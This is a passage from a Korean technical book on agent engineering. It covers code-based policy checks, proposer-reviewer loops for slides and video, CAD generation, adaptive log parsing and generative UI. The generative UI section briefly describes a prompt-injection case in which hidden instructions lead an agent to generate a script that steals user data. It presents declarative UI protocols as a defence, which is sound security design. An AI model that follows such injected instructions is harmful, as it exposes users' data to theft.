이로써 3단계 안전장치가 완성됩니다. (1) 시스템 프롬프트의 자연어 규칙은 이해와 설명을 돕고, (2) 도구 설명과 매개변수 설계는 체크리스트 역할을 하여 모델이 호출 전에 조건을 명시적으로 검증하도록 이끌며, (3) 데이터베이스 정답을 사용하는 서버 측 코드 기반 검증은 최종 게이트키퍼가 됩니다. 앞의 두 계층은 오류 발생을 줄이고, 세 번째 계층은 오류가 돌이킬 수 없는 손실로 이어지지 않도록 보장합니다.

> **실험 5-3 ★★: 소형 모델이 코드 기반 지식으로 규칙 실행 정확도 높이기**
>
> **실험 목표**: 복잡한 비즈니스 규칙을 코드로 인코딩하면 소형 모델(Qwen3-4B)이 규칙을 실행하는 정확성과 일관성이 크게 향상되는지 검증합니다.
>
> **기술적 접근법**: τ-bench 항공사 고객 서비스 시나리오를 바탕으로 통제 실험을 설계합니다. **대조군**: 모델 자체의 사고에 의존하는 순수 자연어 규칙을 사용합니다. **실험군**: 3단계 안전장치를 사용합니다. 시스템 프롬프트에는 자연어 규칙을 유지하고, 도구 설명에는 전체 정책을 나열하며 선택적 `expected_*` 매개변수로 모델이 호출 전에 각 조건을 하나씩 확인하도록 유도합니다(체크리스트). 도구 내부에서는 모의 데이터베이스 정답을 바탕으로 코드 기반 검증을 수행합니다(모든 정책 사실은 데이터베이스에서 얻고 시간은 서버 시계에서 가져오며 모델이 스스로 보고한 매개변수는 신뢰하지 않습니다). 평가 지표는 작업 성공률, 정책 위반 수, 유효하지 않은 도구 호출 수, 사용자 경험입니다.
>
> **예상 결과**: 실험군이 대조군보다 유의미하게 우수한 성능을 보입니다. 더 중요한 점은 모델이 매개변수를 준비하면서 정책 위반을 자율적으로 찾아 도구를 호출하지 않고 대안을 제시함으로써 매개변수가 체크리스트로서 갖는 가치를 보여 준다는 것입니다. 마지막으로 모델이 스스로 보고한 `expected_*` 값과 데이터베이스 정답의 불일치율을 측정하여 사고 오류를 포착하는 데 서버 측 검증이 필요한 이유를 보여 줍니다.
>

### 코드 주도 멀티미디어 생성

많은 복잡한 문서를 만드는 일은 본질적으로 구조화된 데이터를 정리하고 표현하는 일입니다. 프레젠테이션, 기술 보고서, 대화형 애플리케이션 모두 기반 구조를 코드로 정의합니다. HTML은 구조를 기술하고, CSS는 스타일을 제어하며, JavaScript는 상호작용을 구현합니다. 전통적인 문서 제작은 GUI 기반 WYSIWYG 편집기에 의존하지만, 시각적 해석과 정확한 포인터 위치 지정이 필요해 에이전트에는 잘 맞지 않습니다. 코드 생성을 사용하면 에이전트는 시각적 배치라는 난점을 우회하고 문서를 정밀하게 제어할 수 있습니다. 각 요소의 위치, 스타일, 내용이 명확히 정의되며 프로그램으로 수정하고 최적화할 수 있습니다.

**PPT 생성 에이전트.**

PPT 제작은 손이 많이 가기로 유명합니다. 일반적인 학술 발표는 수십 장의 슬라이드로 이루어지며 각 슬라이드에 세심한 레이아웃, 압축한 핵심 요점, 적절한 차트가 필요합니다. 하지만 PPT 제작을 코드 생성 문제로 재구성하면 복잡성이 크게 줄어듭니다. Slidev 같은 현대적인 프레젠테이션 프레임워크는 콘텐츠를 Markdown과 HTML로 정의한다는 우아한 설계 철학을 따릅니다. 간결한 마크업 몇 줄로 슬라이드를 만들면 프레임워크가 렌더링, 레이아웃, 애니메이션을 처리합니다. 코드 생성을 익힌 에이전트에 이상적인 영역입니다.


하지만 코드를 생성하는 것만으로는 충분하지 않습니다. **에이전트가 코드를 작성한 뒤에도 결과가 실제로 어떻게 렌더링되는지는 알 수 없습니다.** 콘텐츠가 지나치게 빽빽한지, 텍스트가 넘치는지, 이미지 크기가 잘못되었는지는 슬라이드를 실제로 렌더링하기 전에는 보이지 않습니다. 따라서 코드 생성과 품질 검토를 두 독립 에이전트에 나누는 **제안자-검토자(Proposer-Reviewer)** 메커니즘(그림 5-5)이 필요합니다.

- **제안자 에이전트**는 Slidev 코드를 생성하고 콘텐츠의 논리 구조를 이해하여 적절한 페이지로 나눕니다.
- **검토자 에이전트**는 코드를 실행해 각 페이지를 이미지로 렌더링하고, Vision LLM(이미지를 "볼 수 있는" 멀티모달 대규모 모델)으로 렌더링된 슬라이드의 콘텐츠 밀도, 가독성, 레이아웃 품질, 시각적 매력을 평가합니다. 그리고 "보기 좋지 않다" 같은 모호한 말이 아니라 구체적이고 실행 가능한 **구조화된 개선 제안**(예: "3페이지: 내용이 너무 많으므로 분할 권장", "7페이지: 코드 블록 글꼴이 너무 작으므로 14pt로 확대 권장")을 페이지 번호, 문제 유형, 심각도 같은 필드와 함께 생성합니다.

제안자는 피드백을 받아 해석하고 코드를 수정한 뒤 새 버전을 검토자에게 다시 제출합니다. 프레젠테이션이 품질 기준을 충족하거나 최대 반복 횟수(예: 5회)에 도달할 때까지 이 주기를 반복합니다. "품질 기준 충족"과 "최대 반복 횟수"는 루프 엔지니어링에서 요구하는 두 가지 명시적 중단 조건입니다. 전자는 검토자가 목표 달성 여부를 결정하게 하고, 후자는 루프가 폭주하지 않도록 하는 예산 상한입니다.

여기서 제안자-검토자 루프는 4장의 **사전 승인** 메커니즘과 같은 패턴을 따릅니다. 한 에이전트가 생성하고 다른 에이전트가 독립적으로 평가합니다. 두 응용은 목적과 워크플로가 다릅니다. 4장에서는 되돌릴 수 없는 단일 작업을 승인하거나 거부하는 데 이 패턴을 사용하지만, 여기서는 제안자가 볼 수 없는 렌더링 결과를 검토자가 확인하며 여러 라운드에 걸쳐 콘텐츠를 반복 개선합니다. 핵심 설계 원칙은 일관됩니다. 목표 제약을 공유하고, 비슷한 오류가 생길 확률을 줄이기 위해 서로 다른 모델 계열을 사용하며, 피드백을 특별 이벤트로 제안자의 궤적에 추가합니다. 단일 에이전트 루프 대신 두 에이전트가 분업할 때의 **핵심 장점**은 **컨텍스트 관리**에 있습니다. 검토자는 이전 버전의 영향을 받지 않고 최신 버전의 렌더링 이미지만 처리합니다. 제안자는 구조화된 텍스트 피드백만 누적하므로 토큰을 덜 소비하고 사고하기도 쉽습니다. 단일 에이전트 해법이라면 수십 페이지에 대해 여러 라운드의 렌더링 이미지를 같은 컨텍스트에 누적해야 하므로 컨텍스트 한도를 빠르게 초과합니다. 이 메커니즘은 뒤의 비디오 편집과 로그 시각화 실험에서도 재사용합니다. 10장에서는 제안자-검토자 패러다임을 넘어서는 다른 멀티 에이전트 협업 방식도 살펴봅니다.

> **실험 5-4 ★★: 논문으로 PPT 자동 생성하기**
>
> **실험 목표**: 학술 논문으로 고품질 프레젠테이션을 자동 생성하여 콘텐츠 제작 품질 관리에서 제안자-검토자 메커니즘의 효과를 검증합니다.
>
> **기술적 접근법**: Slidev 프레임워크를 사용합니다. 제안자 에이전트가 논문 PDF를 읽고 장 구조, 핵심 주장, 그림을 추출하여 PPT 구조를 계획한 뒤 페이지별로 Slidev 코드를 생성합니다. **핵심 단계**: 검토자 에이전트가 각 슬라이드를 렌더링하고 스크린샷을 찍은 다음 Vision LLM으로 텍스트 넘침, 콘텐츠 과밀, 부적절한 이미지 크기를 평가합니다. 프레젠테이션이 품질 기준을 충족할 때까지 제안자와 검토자가 반복 작업합니다.
>
> **인수 기준**: 논문의 주요 기여를 다루는 슬라이드 10~20장을 생성합니다. 함께 배치한 텍스트와 맞는 원본 그림을 3개 이상 포함합니다. 렌더링 시 텍스트가 넘치지 않고 레이아웃이 적절해야 합니다. 단일 에이전트 자체 검토와 제안자-검토자 분업의 컨텍스트 소비량과 생성 품질을 비교합니다.
>

> **실험 5-5 ★★: 논문 해설 동영상 자동 생성하기**
>
> **실험 목표**: PPT 생성 기능을 확장하고 시각·청각 채널을 결합하여 해설 동영상을 자동으로 생성합니다.
>
> **기술적 접근법**: 실험 5-4의 프레젠테이션 워크플로를 바탕으로 에이전트가 각 슬라이드에 대해 슬라이드의 텍스트를 반복하는 대신 시청자를 이끄는 대화체 내레이션도 생성합니다. TTS(text-to-speech)로 음성을 합성하고 FFmpeg로 슬라이드 이미지와 음성을 결합하여 최종 동영상을 만듭니다.
>
> **인수 기준**: 5~15분 길이의 동영상을 만듭니다. 각 슬라이드의 표시 시간이 내레이션 길이와 정확히 맞고 내레이션이 시각 요소와 대응해야 합니다.
>
>
> 
>
>

**동영상 편집 에이전트.**

범용 컴퓨터 사용 인터페이스로 동영상을 편집할 때는 근본적인 장애물이 있습니다. 동영상 편집 GUI는 타임라인, 레이어, 효과 패널이 빽빽하게 들어차 있어 대단히 복잡합니다. 에이전트는 마우스와 키보드로 이러한 요소를 찾아 조작해야 하는데, 이를 위해서는 모델이 산출하기 어려운 정확한 좌표가 필요합니다.

동영상 편집을 API 호출과 코드 생성으로 재구성하면 복잡성이 크게 줄어듭니다. 많은 전문 소프트웨어 도구가 핵심 기능을 구조화되고 조합 가능한 방식으로 노출하는 프로그래밍 API 인터페이스를 제공합니다. 예를 들어 Blender는 Python 스크립팅을 지원하는 오픈 소스 3D 제작·동영상 합성 도구이고, FFmpeg는 오디오·동영상 처리를 위한 명령줄의 만능 도구입니다. Blender Python API를 사용하면 동영상 클립 가져오기, 자르기, 배치, 전환 효과 추가, 오디오 믹싱 같은 작업을 정밀하게 제어할 수 있으며 각 작업은 명확한 함수 호출에 대응합니다. 에이전트에는 GUI 인터페이스를 이해하고 마우스 클릭을 흉내 내는 것보다 자연어 요구사항을 API 호출로 변환하는 편이 훨씬 쉽습니다. PPT 생성과 마찬가지로 동영상 편집도 제안자-검토자 메커니즘을 채택합니다. 제안자 에이전트가 Blender 스크립트를 생성하고, 검토자 에이전트가 키프레임을 렌더링한 뒤 Vision LLM으로 효과를 확인해 수정 피드백을 제공합니다.

> **실험 5-6 ★★: API 기반 지능형 동영상 편집**
>
> **실험 목표**: Blender Python API 코드를 생성해 동영상을 편집하는 에이전트의 능력을 검증하고, 시각 피드백 기반 제안자-검토자 메커니즘이 멀티미디어 콘텐츠 처리에서 맡는 역할을 평가합니다.
>
> **핵심 과제**: 사용자의 자연어 편집 요구사항을 이해하여 정확한 API 호출 순서로 변환하고, 자르기·병합·자막·오디오 트랙 믹싱·시각 효과 등 다양한 편집 작업을 처리하며, 생성한 Python 스크립트가 올바르게 실행되도록 해야 합니다. 제안자 에이전트는 코드를 작성한 뒤 동영상 효과를 직접 판단할 수 없으므로 검토자 에이전트가 렌더링하고 Vision LLM으로 키프레임을 확인해야 합니다.
>
> **기술적 접근법**: 사용자가 동영상 자료(예: 서핑, 하이킹, 스키 장면이 포함된 원본 영상)를 제공하고 자연어로 요구사항(예: "서핑 부분을 잘라내 주세요")을 설명합니다. 제안자 에이전트는 **2단계 위치 탐색 전략**을 사용하는 동영상 분석 하위 에이전트를 활용합니다.
>
> **1단계, 대략적인 위치 탐색**: 동영상 경로, 10초 프레임 샘플링 간격, 대상 질문과 함께 하위 에이전트를 호출합니다. 하위 에이전트는 ffmpeg로 해당 간격마다 프레임을 캡처하여 스크린샷과 질문을 Vision LLM에 보내고 장면 구간(예: "서핑은 40~110초 사이")을 반환합니다.
>
> **2단계, 세밀한 위치 탐색**: 더 좁은 범위에서 하위 에이전트를 다시 호출하고 초당 한 프레임을 샘플링하여 경계를 정확히 찾습니다.
>
> 동영상 분석을 하위 에이전트로 캡슐화하면 많은 스크린샷이 주 에이전트의 컨텍스트를 차지하는 일을 막을 수 있습니다. 위치를 찾은 뒤 제안자가 Blender API 스크립트를 생성합니다. 검토자 에이전트는 빠른 미리보기를 수행하고 키프레임을 확인하여 수정 피드백을 제공하며, 기준을 충족할 때까지 반복한 뒤 전체를 렌더링합니다.
>
> **인수 기준**: 에이전트가 동영상의 서로 다른 장면을 정확히 식별하고 자연어 지침을 바탕으로 편집 스크립트를 올바르게 생성해야 합니다. 시작점과 끝점의 오차는 3초 이내여야 합니다. 지침에 슬로 모션, 전환, 자막 같은 특수 효과 요구사항이 포함되면 생성한 동영상에 효과를 올바르게 적용해야 합니다. 검토자 에이전트는 핵심 콘텐츠 누락, 관련 없는 구간 포함 같은 명백한 오류를 감지하고 교정을 촉발할 수 있어야 합니다. 최종 출력 동영상 파일은 형식이 올바르고 기대 품질을 충족해야 합니다.
>

**3D와 산업 부품: 코드 생성과 생성 모델의 경계.**

똑같이 “무언가를 생성하는” 일이지만 에이전트 앞에는 두 가지 길이 있습니다. 하나는 코드로 정밀하게 구축하는 길(CadQuery, OpenSCAD, Blender API)이고, 다른 하나는 3D 생성 모델(텍스트/이미지를 3D로 변환하는 Hunyuan 3D 같은 모델로, 텍스트-이미지 생성과 같은 diffusion 계열)을 직접 호출하는 길입니다. 많은 사람이 고민합니다. 도대체 언제 코드 생성을 쓰고 언제 이미지/3D 생성 모델을 써야 할까요?

**첫째, 산출물에 간결하고 정확한 기술이 있는지 봅니다.** 산업 부품에는 본래 간결하고 정확한 기술이 있습니다. 플랜지 하나는 외경, 두께, 볼트홀 원 지름, 구멍 지름, 구멍 수라는 다섯여섯 개의 파라미터만으로 완전히 정의되며, 코드는 이것의 **무손실** 표현입니다. 화분에 심은 식물, 타이후석(太湖石), 사람 얼굴은 다릅니다. 셀 수 없이 많은 디테일이 있어 **내재적 복잡도가 거의 무한**합니다.

**둘째, 정밀도 요구사항과 검증 가능성을 봅니다.** 부품의 모든 치수는 엄격한 제약입니다. 구멍 지름 5mm, 공차 ±0.05mm처럼 조금만 어긋나도 불량품입니다. 코드로 생성한 부품은 프로그래밍 방식으로 검증할 수 있습니다. 메시를 불러와 외경과 구멍 위치를 측정하고 사양과 항목별로 대조하면 됩니다. 반면 3D 생성 모델이 만든 부품은 사양과 직접 대조할 수 없습니다.

두 길에는 더 실제적인 차이가 하나 더 있습니다. 바로 **표현 형식과 편집 가능성**입니다. 제조 공정이 요구하는 것은 B-rep(경계 표현) 파라메트릭 솔리드입니다. STEP 파일에는 피처 트리와 치수 파라미터가 저장되어 CNC 가공을 바로 구동할 수 있습니다. 3D 생성 모델이 내놓는 것은 삼각형 면 메시입니다. 곡면을 수많은 잘게 쪼갠 면으로 근사하므로 확대해 보면 울퉁불퉁합니다. 발주처가 “장착 구멍을 M5에서 M6으로 바꿔 주세요”라고 말하는 순간 차이가 드러납니다. 코드 경로는 숫자 하나를 바꾸고 다시 실행하면 나머지 치수가 조금도 틀어지지 않습니다. 생성 모델 경로는 전체를 다시 생성할 수밖에 없고, 다른 치수가 따라서 어긋날지는 전적으로 운에 달렸습니다.

따라서 어느 길을 택할지는 그 자체로 에이전트가 내려야 할 하나의 의사결정입니다. 산출물의 내재적 복잡도와 정밀도 요구사항을 저울질해 작업을 코드 생성 또는 3D 생성 모델에 배분하는 것입니다. 실제 시스템에서는 두 길을 섞어 갈 수도 있습니다. 기하 형상은 코드로 파라메트릭하게 생성하고 표면 텍스처는 생성 모델에 맡겨 각자의 장점을 취하는 것입니다.

> **실험 5-7 ★★: 같은 부품의 두 가지 생성 경로—코드와 생성 모델**
>
> **실험 목표**: 치수 사양이 있는 같은 기계 부품을 대상으로 코드 생성과 3D 생성 모델 두 경로가 치수 정밀도, 편집 가능성, 제조 가용성에서 보이는 차이를 비교하고, “내재적 복잡도와 정밀도 요구사항에 따라 경로를 고른다”는 판단 프레임워크를 검증합니다.
>
> **기술적 접근법**: 명확한 사양이 담긴 자연어 요구사항(예: “플랜지, 외경 80mm, 두께 10mm, 균등 분포 M5 장착 구멍 4개, 볼트홀 원 지름 60mm”). **경로 A**: 에이전트가 CadQuery(또는 OpenSCAD) 코드를 작성해 부품을 구축하고 STEP과 STL로보냅니다. **경로 B**: 같은 사양을 3D 생성 모델(예: Hunyuan 3D)에 맡겨 삼각형 면 메시를 얻습니다. **프로그래밍 방식 검증**: 두 경로 산출물의 핵심 치수(외경, 두께, 구멍 위치, 구멍 지름)가 사양과 얼마나 어긋나는지 측정하고 장착면의 평탄도를 검사합니다.
>
> 이어서 “장착 구멍을 M5에서 M6으로 변경”하는 변경 요청을 보내고 두 경로 각각의 수정 비용을 기록합니다. 코드 경로는 파라미터 하나를 바꾸고 다시 실행하면 되지만, 생성 모델 경로는 전체를 다시 생성할 수밖에 없어 나머지 치수가 유지될지 보장할 수 없습니다.
>
> **대조군**: 화분에 심은 식물을 생성해 봅니다. 두 경로의 우열이 정확히 뒤집힙니다. 코드 경로는 프로그래밍 방식의 노이즈를 더해도 경직되고 기계적이며, 생성 모델 경로는 자연스럽고 생동감 있습니다.

### 시스템 어댑터로서의 코드

앞 절의 코드는 주로 보고서, 슬라이드, 인터페이스처럼 "사람을 위한" 것을 만들었습니다. 이 절의 코드는 다른 방향인 **기계와 기계의 연결**을 향합니다. 실제 시스템에서 에이전트가 통신해야 할 외부 서비스는 미리 만들어진 SDK가 없는 경우가 많고, 인터페이스도 깔끔한 경우가 드뭅니다. 문서가 없거나 응답 형식이 비표준일 수 있고 버전에 따라 필드가 달라질 수 있습니다. 에이전트는 미리 만든 어댑터를 기다릴 필요가 없습니다. API 문서를 읽거나 실제 응답 몇 개를 조사한 뒤 필요할 때 어댑터를 생성할 수 있습니다. HTTP 클라이언트를 만들고, 인증 헤더를 구성하며, 비표준 응답 구조를 파싱하고, 업스트림 데이터 모델을 다운스트림이 소비할 수 있는 형태로 변환합니다. 여기서 코드는 임의의 시스템을 연결하는 "범용 접착제"입니다. 틈이 있는 곳마다 필요할 때 접착제 조각을 생성해 채웁니다. 이것이 메타 역량의 "시스템 인터페이스" 방향에서 핵심입니다. 아래에서 개발할 적응형 로그 파싱은 이 역량을 관측 가능성 환경에서 구체화합니다. 끊임없이 진화하는 로그 형식을 만나면 에이전트가 즉석에서 파싱 코드를 생성하여 마찬가지로 적응합니다.

이 "범용 접착제"는 **API가 전혀 없는 시스템**까지 확장할 수 있습니다. 외부 시스템이 그래픽 인터페이스만 제공한다면 에이전트는 먼저 컴퓨터 사용(6장에서 자세히 설명)으로 인터페이스를 조작한 다음, 성공한 작업 순서를 코드로 된 RPA 도구로 확정할 수 있습니다. 다음에 같은 작업이 생기면 비용이 큰 시각적 사고 없이 코드를 실행하기만 하면 되므로 빠르고 안정적입니다. RPA는 시스템 어댑터를 극한까지 밀어붙인 형태, 즉 프로그래밍 인터페이스가 없는 시스템을 위한 어댑터라고 할 수 있습니다. 이 "워크플로 기록과 확정" 메커니즘은 9장에서 다룹니다.

데이터 처리는 소프트웨어 시스템에서 가장 흔하면서도 가장 번거로운 작업 중 하나입니다. 근본 원인은 데이터 형식이 다양하고 끊임없이 바뀐다는 것입니다. 시스템 하나도 발전하면서 새 필드, 중첩 구조 변경, 새 타입 등 형식이 여러 차례 바뀔 수 있습니다. 모든 형식에 대해 파서를 직접 작성하면 유지보수 비용이 엄청납니다. 변경할 때마다 파싱 로직을 갱신하고 호환성을 테스트하며 새 버전을 배포해야 합니다.

코드 생성은 완전히 다른 접근법을 제공합니다. 에이전트가 새 형식을 만나면 샘플 데이터에서 즉석으로 파싱 코드를 생성하므로 사람의 개입 없이 시스템이 형식의 발전을 자동으로 따라갑니다.

**에이전트 로그 파싱과 시각화.**

에이전트 시스템의 관측 가능성은 실행 흐름 시각화에 달려 있습니다. 복잡한 에이전트 작업에는 여러 차례의 LLM 호출, 수십 번의 도구 실행, 여러 하위 에이전트 간 상호작용을 포함한 수백 단계가 있을 수 있습니다. 이 데이터를 시각화할 때는 여러 문제가 생깁니다. 도구마다 서로 다른 구조의 데이터를 반환하고 시스템이 반복 개발되면서 형식도 발전합니다. 완전한 궤적에는 수십만 개의 문자가 들어갈 수 있어 개요와 세부 사항 사이에서 균형을 맞춰야 합니다.

코드 생성은 자동 복구 피드백 루프라는 우아한 해법을 제공합니다. 프런트엔드가 파싱할 수 없는 로그 형식을 만나면 오류를 표시하는 대신 실패 정보(원시 로그 샘플, 상세 오류)를 에이전트에 자동으로 보고합니다. 에이전트는 샘플 데이터 구조를 분석하고 이를 올바르게 파싱할 수 있는 프런트엔드 코드를 생성합니다. 먼저 가상 브라우저에서 코드를 자동으로 테스트하여 파싱의 정확성을 검증하고, Vision LLM이 시각화 결과를 평가합니다. 두 검사를 모두 통과하면 핫 업데이트로 프런트엔드에 배포합니다.

> **실험 5-8 ★★★: 적응형 로그 파싱 시스템**
>
> **실험 목표**: 스스로 발전하는 에이전트 로그 시각화 시스템을 구축합니다.
>
> **기술적 접근법**: 초기 시스템은 기본 형식만 지원합니다. 프런트엔드가 파싱 실패 감지 → 에이전트에 보고 → 파싱 코드 생성 → 가상 브라우저 테스트 → 핫 업데이트 배포의 전체 과정을 자동화합니다.
>
> **인수 기준**: 실패를 자동으로 감지해 학습을 촉발하고, 자동 테스트를 통과하는 코드를 생성하며, 핫 업데이트 후 새 형식을 올바르게 파싱해야 합니다.
>

**에이전트 실행 로그의 자동 분석과 문제 진단.**

프로덕션 에이전트는 각 작업의 전체 과정을 기록한 대량의 궤적 로그를 생성합니다. 하지만 이 로그에서 문제를 식별하고 근본 원인을 찾으며 테스트 케이스를 구성하는 일에는 많은 비용이 듭니다. 실패가 여러 모듈의 상호작용에서 발생하면 근본 원인을 분리하기 어렵습니다. 테스트 환경은 프로덕션의 복잡성을 온전히 담는 경우가 드물어 재현 비용도 클 수 있습니다. 마지막으로 수정 사항을 체계적인 회귀 테스트로 다루지 않으면 버그가 자주 재발합니다.

코드 생성은 진단을 자동화하는 경로를 제공합니다. 에이전트는 프로덕션 로그를 읽고 아키텍처 문서와 PRD(Product Requirement Document, 제품 요구사항 문서)를 함께 분석하여 실행 흐름이 기대에 부합하는지 자동으로 판단하고 문제가 있는 컴포넌트와 모듈을 정확히 찾을 수 있습니다. 분석 결과를 바탕으로 구조화된 문제 보고서(우선순위, 모듈, 설명, 개선 제안)와 회귀 테스트 케이스를 생성합니다. 테스트 케이스는 문제 궤적 ID와 핵심 상호작용 라운드를 참조하며, 테스트 프레임워크가 이를 자동으로 재생하여 수정된 시스템이 같은 입력에서 올바르게 동작하는지 검증합니다. 마지막으로 에이전트가 MCP를 통해 GitHub에 연결하여 이슈를 만들고 관련 개발자에게 할당함으로써 문제 발견부터 작업 할당까지 전 과정을 자동화합니다.

> **실험 5-9 ★★★: 프로덕션 로그를 위한 지능형 진단 시스템**
>
> **실험 목표**: 프로덕션 궤적에서 문제를 자동으로 발견하고 테스트 케이스와 작업 항목을 생성합니다.
>
> **기술적 접근법**: 에이전트가 프로덕션 궤적 묶음을 시스템 아키텍처 문서와 PRD와 함께 분석하여 문제 패턴과 관련 모듈을 식별합니다. 그런 다음 우선순위, 모듈, 설명, 권장 개선 사항이 담긴 구조화된 문제 보고서를 생성합니다. 궤적 ID 및 상호작용 라운드에 연결된 회귀 테스트도 생성하고, 테스트 프레임워크가 이 케이스를 재생하여 결과를 검증합니다. 마지막으로 에이전트가 MCP를 통해 GitHub 이슈를 생성합니다.
>
>
> 
>
>

### 생성형 UI로서의 코드

전통적인 에이전트 시스템은 주로 일반 텍스트 대화로 사용자와 상호작용합니다. 하지만 텍스트는 선형적이고 일차원적인 매체이며 많은 시나리오에서 비효율적입니다. 구조화된 정보를 수집하려면 대화를 오래 주고받아야 하고, 복잡한 데이터 관계를 일반 텍스트로 표현하기 어려우며, 사용자가 여러 선택지 중 하나를 골라야 할 때는 텍스트 목록이 시각적 인터페이스보다 훨씬 직관성이 떨어집니다.

코드 생성은 이러한 한계를 뛰어넘는 방법을 제공합니다. 에이전트가 양식, 대화형 차트, 심지어 완전한 웹 애플리케이션까지 동적으로 생성하여 정적인 텍스트 대화를 풍부한 멀티모달 상호작용으로 바꿀 수 있습니다. 에이전트가 인터페이스를 동적으로 생성하는 이 패턴을 **생성형 UI(Generative UI)**라고 합니다.

**A2UI 계열 프로토콜: 생성형 UI의 표준화.**

에이전트가 HTML과 JavaScript를 생성하고 클라이언트가 이를 직접 렌더링·실행하게 하면 생성된 코드가 악성일 수 있다는 근본적인 보안 위험이 생깁니다. 예를 들어 누군가 입력에 고의로 명령을 숨기면 프롬프트 인젝션으로 에이전트를 조종하여 사용자 데이터를 몰래 훔치는 스크립트를 자신도 모르게 생성하게 할 수 있습니다. 여기서는 인과 관계가 중요합니다. 에이전트 입력에 악성 명령을 섞는 **프롬프트 인젝션**이 원인이고, 그 결과 만들어진 악성 스크립트를 브라우저에서 실행해 데이터를 훔치는 행위는 전통적인 웹 XSS(Cross-Site Scripting)와 비슷합니다. 공격 전체를 단순히 XSS라고 불러서는 안 됩니다. A2UI(Agent-to-User Interface) 같은 선언형 인터페이스 프로토콜은 더 안전한 접근법을 제공합니다. 에이전트는 실행 가능한 코드를 직접 만드는 대신 "'매출 데이터'라는 제목으로 3행 2열 표를 표시"하는 식의 JSON "UI 설명 매니페스트"만 출력합니다. 그러면 클라이언트가 미리 정의한 안전한 자체 컴포넌트로 인터페이스를 렌더링합니다. 식당 메뉴와 같습니다. 고객(에이전트)은 메뉴에 있는 요리(미리 정의한 컴포넌트)만 주문할 수 있고, 주방에 들어가 임의의 요리를 만들 수는 없습니다(임의 코드 실행). 흔히 혼동하는 것이 CopilotKit이 제안한 AG-UI(Agent-User Interaction)입니다. 이름은 비슷하지만 UI 설명 언어가 아니라 메시지, 도구 호출, 상태 패치 같은 에이전트 실행 상태를 프런트엔드로 스트리밍하는 **이벤트·전송 프로토콜**입니다. A2UI 매니페스트 같은 UI 페이로드도 전달할 수 있습니다. 둘은 상호 보완적이며 같은 선언형 인터페이스 범주의 사례로 묶어서는 안 됩니다.

이러한 프로토콜의 핵심 설계 원칙은 **보안 우선**입니다. 클라이언트가 신뢰할 수 있는 컴포넌트 카탈로그(예: Card, Button, TextField, Table)를 유지하고 카탈로그와 렌더러를 올바르게 강제하면, 에이전트는 등록된 컴포넌트만 요청할 수 있고 임의 코드는 주입할 수 없습니다. 클라이언트는 에이전트가 만든 임의의 HTML을 실행하지 않고 자체 네이티브 컴포넌트로 렌더링합니다. 이러한 프로토콜은 일반적으로 **크로스 플랫폼 렌더링**(같은 설명을 React, Flutter, 네이티브 앱에서 렌더링)과 **점진적 생성**(예: JSONL을 스트리밍하여 도착하는 대로 클라이언트가 렌더링)도 지원합니다.

물론 선언형 접근법은 양식, 표, 카드 같은 표준화된 상호작용 시나리오에 적합하고, 맞춤 시각화나 게임 인터페이스처럼 고도로 특화된 요구에는 직접 코드 생성이 여전히 더 유연한 선택입니다. 아래에서는 두 패턴의 구체적인 응용을 살펴봅니다.

**HTML로 결과 전달: Markdown 보고서 대체.** 생성형 UI는 상호작용 중에만 쓰이는 것이 아니라 에이전트가 최종적으로 내놓는 **산출물**의 형태도 바꾸고 있습니다. 전통적으로 에이전트는 작업을 마치고 Markdown 보고서를 전달하지만, 선형으로 배열된 Markdown을 넘겨 가며 읽는 경험은 쾌적하지 않습니다. 에이전트의 프런트엔드 코드 생성 능력이 향상되면서 HTML을 직접 만들게 하는 방식으로 실무가 이동하고 있습니다. HTML 산출물에는 Markdown과 비교해 몇 가지 뚜렷한 장점이 있습니다. 첫째, **대화형 시연**을 사용하면 시스템 작동 방식을 대화형으로 볼 수 있어 긴 텍스트 설명보다 한눈에 이해하기 쉬운 경우가 많습니다. 둘째, **더 나은 데이터 시각화**를 통해 차트와 대화형 컨트롤로 데이터를 탐색하고 필터링하며 세부 정보까지 파고들 수 있습니다. 셋째, **지속적으로 개선 가능한 산출물**을 통해 작업 끝에 정적인 결과물 하나만 만드는 대신 작업 내내 HTML 웹사이트를 갱신하고 확장할 수 있습니다.

저자가 연구 논문을 쓰는 경험을 예로 들어 보겠습니다. 저자는 각 연구 프로젝트마다 대화형 웹사이트를 유지합니다[^ch5-4]. 이는 최종 산출물이면서 연구 과정 전체에서 살아 움직이는 문서로도 쓰입니다. 실험이 진행되는 동안 에이전트가 계속 사이트를 갱신하게 합니다. 이 웹사이트에는 적어도 세 가지 목적이 있습니다. 첫째, **실험 데이터 추적성**입니다. 모든 실험의 구체적인 데이터, 사용한 프롬프트, LLM의 원시 응답을 사이트에서 항목별로 살펴볼 수 있습니다. 모든 것을 공개적으로 펼쳐 놓으면 데이터 구성, 형식, 분포의 문제를 찾고 LLM 응답이나 평가자 점수의 체계적 편향을 알아차리기 쉽습니다. 둘째, **학습 지표 모니터링**입니다. 사이트에 학습 곡선을 직접 표시하여 모델의 **내부 건강 지표**를 쉽게 모니터링하고 학습 과정이 건전하게 유지되는지 판단합니다. 이 용어는 의학에서 빌려온 것으로, 학습·검증 손실, 그래디언트 노름, 학습률, 모델이 토큰을 출력할 때의 퍼플렉시티(자신의 출력에 대한 "확신"을 측정), 강화 학습의 보상, KL 발산, 정책 엔트로피처럼 학습 과정 자체가 건전한지를 보여 주는 내부 신호입니다. 이는 작업 정확도 같은 최종 결과 지표와 다릅니다. 건강 검진의 생리적 측정값이 사람의 외적 성과와 별개인 것처럼, 내부 건강 지표는 손실의 미수렴, 그래디언트 폭발, 학습 붕괴 같은 문제를 훨씬 일찍 드러내는 경우가 많습니다. 셋째, **시스템 작동 시연**입니다. 시각화를 통해 전체 시스템의 작동 방식을 보여 주어 독자가 AI가 구축한 시스템의 구조를 한눈에 파악할 수 있게 합니다.

[^ch5-4]: 저자의 연구 프로젝트 웹사이트는 https://01.me/research/ 에서 확인할 수 있으며, 각 프로젝트마다 지속적으로 갱신되는 대화형 웹사이트가 있습니다.

**사용자 의도 명확화.**

요구사항이 모호하거나 불완전하면 에이전트는 명확화 질문으로 빠진 정보를 수집해야 합니다. OpenAI Deep Research 같은 제품은 보통 텍스트 기반 질의응답으로 이를 처리하지만 뚜렷한 한계가 있습니다. 질문마다 대화 한 턴을 소비하므로 명확히 할 항목이 열 개라면 열 번의 대화가 필요할 수 있어 비효율적입니다. 또한 여행 목적지가 이용 가능한 교통수단을 제한하는 것처럼 질문 간 의존성을 일반 텍스트로 명확히 표현하기 어렵습니다.

